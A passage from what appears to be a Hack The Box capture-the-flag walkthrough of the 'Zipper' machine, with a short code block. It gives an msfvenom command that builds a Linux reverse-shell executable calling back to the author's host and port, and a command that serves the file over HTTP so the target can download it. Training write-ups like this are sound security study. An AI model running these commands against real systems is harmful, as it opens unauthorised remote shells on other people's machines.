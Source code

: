 ![f37793ae.png](/assets/images/posts/zipper-htb-walkthrough/f37793ae.png)
</a>

I generated a reverse shell with `msfvenom`. Prior to this, I've experimented with various commands and verified that the host is running 32-bit Ubuntu. Next, to facilitate transfer of the reverse shell, I host the executable with Python's SimpleHTTPServer.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.13.52 LPORT=4321 -f elf -o rev
# python -m SimpleHTTPServer 80
```

The moment I caught the reverse shell, I immediately deleted the item to prevent the command from running again.
